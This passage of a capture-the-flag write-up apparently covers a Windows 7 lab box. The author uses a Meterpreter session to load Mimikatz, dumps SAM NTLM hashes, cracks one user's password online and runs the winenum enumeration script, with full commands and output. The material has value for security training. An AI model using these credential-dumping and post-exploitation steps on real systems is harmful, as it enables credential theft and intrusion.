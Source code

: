 Now that we have a meterpreter session going, lets try to escalate priviledges with Mimikatz:

```bash
meterpreter > load mimikatz
Loading extension mimikatz...[!] Loaded Mimikatz on a newer OS (Windows 7 (6.1 Build 7601, Service Pack 1).). Did you mean to 'load kiwi' instead?
Success.
meterpreter > mimikatz_command -f version
mimikatz 1.0 x64 (RC) (Jun 26 2020 21:27:49)
meterpreter > msv
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============

AuthID   Package    Domain        User           Password
------   -------    ------        ----           --------
0;997    Negotiate  NT AUTHORITY  LOCAL SERVICE  n.s. (Credentials KO)
0;996    Negotiate  WORKGROUP     JON-PC$        n.s. (Credentials KO)
0;22657  NTLM                                    n.s. (Credentials KO)
0;999    NTLM       WORKGROUP     JON-PC$        n.s. (Credentials KO)
meterpreter > mimikatz_command -f samdump::hashes
Ordinateur : Jon-PC
BootKey    : 55bd17830e678f18a3110daf2c17d4c7

Rid  : 500
User : Administrator
LM   : 
NTLM : 31d6cfe0d16ae931b73c59d7e0c089c0

Rid  : 501
User : Guest
LM   : 
NTLM : 

Rid  : 1000
User : Jon
LM   : 
NTLM : ffb43f0de35be4d9917ac0cc8ad57f8d
```

We have some hashes that need to be cracked! I tried plugging them into a reverse MD5 site to no avail. I just happened to stumble upon crackstation, a website that lets you plug in a variety of hashes, including our NTLM hashes. User ```Jon```'s password was ```alqfna22```, but our Administrator's password was the interesting one, which turned out to be simply a blank password. Doing a little digging, this hash reveals to us that the local admin account is disabled. Saad face. 


I guess I should have read more about ```NT AUTHORITY\SYSTEM``` and how it is basically the ```root``` of the Windows world. I had already pwned this box, but I guess I was just having fun trying to see what else I could find now that I was ```"root"```. And so we shall:

```bash
meterpreter > run winenum
[*] Running Windows Local Enumeration Meterpreter Script
[*] New session on 10.10.105.201:445...
[*] Saving general report to /Users/titanium/.msf4/logs/scripts/winenum/JON-PC_20200711.4713/JON-PC_20200711.4713.txt
[*] Output of each individual command is saved to /Users/titanium/.msf4/logs/scripts/winenum/JON-PC_20200711.4713
[*] Checking if JON-PC is a Virtual Machine ........
[*] 	This is a Xen Virtual Machine.
[*] 	UAC is Disabled
[*] Running Command List ...
[*] 	running command cmd.exe /c set
[*] 	running command arp -a
```
